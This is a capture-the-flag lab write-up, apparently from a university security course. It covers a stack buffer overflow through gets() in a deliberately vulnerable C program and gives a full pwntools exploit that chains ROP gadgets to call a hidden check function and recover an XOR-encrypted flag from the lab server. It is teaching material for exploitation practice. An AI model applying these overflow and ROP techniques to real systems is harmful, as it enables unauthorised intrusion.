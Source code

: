 ```yaml
---
title: Simple PWN 0x33(2023 Lab - ROP_RW)
tags: [eductf, CTF, PWN]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN 0x33(2023 Lab - ROP_RW)
## Background
ROP chain
## Source code
:::spoiler Source Code
```cpp
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <fcntl.h>

char flag[0x10];
long secret;
char empty_buf[0x30];

void check(char *input)
{
	char pass[0x10];
	char output[0x10];
	for (int i = 0; i < 2; ++i)
	{
		((long *)pass)[i] = ((long *)input)[i] ^ secret;
	}
	if (strcmp(pass, "kyoumokawaii") == 0)
	{
		for (int i = 0; i < 2; ++i)
			((long *)output)[i] = ((long *)flag)[i] ^ ((long *)pass)[i];
	}
	printf("flag = %s\n", output);
}

int main(void)
{
	setvbuf(stdin, 0, _IONBF, 0);
	setvbuf(stdout, 0, _IONBF, 0);
	int fd = 0;
	char buf[0x10];
	fd = open("/home/chal/flag.txt", O_RDONLY);
	read(fd, flag, 0x10);
	close(fd);

	fd = open("/dev/urandom", O_RDONLY);
	read(fd, &secret, sizeof(secret));
	for (int i = 0; i < 2; ++i)
		((long *)flag)[i] = ((long *)flag)[i] ^ secret;

	printf("secret = %lx\n", secret);
	printf("> ");
	gets(buf);

	return 0;
}

```
:::
## Recon
先看這個程式的行為，在main當中，他會打開flag.txt和urandom這兩個file，然後做兩者的XOR，並且回傳urandom的內容給我們，並且有BOF的漏洞存在
:::info
flag和secret這兩個變數都是global variable
:::
而check這個function的功能是我們可以輸入一個input，他會和secret做XOR，若結果等於==kyoumokawaii==就把前面加密過的flag再跟`kyoumokawaii`做XOR並回傳給我們

思路很簡單:
雖然整隻程式都沒有呼叫到check function，但如果我們拿到secret，又可以進到check，是否可以做一些操作拿到flag
一開始一定會做的事情是把flag加密
$$
cipher= flag \oplus secret\\
$$
如果可以進到check function
$$
input\leftarrow kyoumokawaii\oplus secret
$$
$$
output\leftarrow cipher\oplus kyoumokawaii=flag\oplus secret\oplus kyoumokawaii
$$
$$
flag = output\oplus secret\oplus kyoumokawaii
$$
此時`output`, `secret`都已知，我們反推出flag為何，但重點是要怎麼呼叫到check function?==ROP chain + BOF==

1. 先利用該隻binary的gadget蓋成我們需要的chain，並且隨便找一個區間是不太會寫入的bss section address
    ```
    check_fn_addr = 0x4017ba
    bss_section = 0x4c7f00
    pop_rdx_rbx_ret = 0x0000000000485e8b
    mov_qword_ptr_rdi_rdx_ret = 0x00000000004337e3
    pop_rdi_ret = 0x00000000004020af
    ...
    rop_chain = flat(
    pop_rdi_ret,        bss_section,
    pop_rdx_rbx_ret,    input_1,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section + 0x8,
    pop_rdx_rbx_ret,    input_2,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section,
    check_fn_addr
    )
    ```
2. 等到跳到check function後就可以開始接return output，並按照上面的公式回推flag
## Exploit - ROP + BOF
```python
from pwn import *
from Crypto.Util.number import bytes_to_long, long_to_bytes

# r = process('./chal')
r = remote('10.113.184.121', 10051)
context.arch = 'amd64'

r.recvuntil(b'secret = ')
secret = int(r.recvline().strip().decode(), 16)
log.info(f'secret = {hex(secret)}')

check_fn_addr = 0x4017ba
bss_section = 0x4c7f00
pop_rdx_rbx_ret = 0x0000000000485e8b
mov_qword_ptr_rdi_rdx_ret = 0x00000000004337e3
pop_rdi_ret = 0x00000000004020af

input_1 = u64(b'kyoumoka') ^ secret
input_2 = u64(b'waii\x00\x00\x00\x00') ^ secret
log.info(f'input_1 = {hex(input_1)}, input_2 = {hex(input_2)}')

rop_chain = flat(
    pop_rdi_ret,        bss_section,
    pop_rdx_rbx_ret,    input_1,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section + 0x8,
    pop_rdx_rbx_ret,    input_2,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section,
    check_fn_addr
)
# raw_input()
r.sendlineafter(b'> ', b'a' * 40 + rop_chain)
r.recvuntil(b'flag = ')
output = r.recvline().strip()
log.info(f'output = {output}')
log.info(f'Part 1 = {hex(u64(output[0:8]))}, Part 2 = {hex(u64(output[8:16]))}')
flag_1 = p64(u64(output[0:8]) ^ input_1)
flag_2 = p64(u64(output[8:16]) ^ input_2)
log.info(f'flag = {(flag_1 + flag_2).strip().decode()}')

r.interactive()
```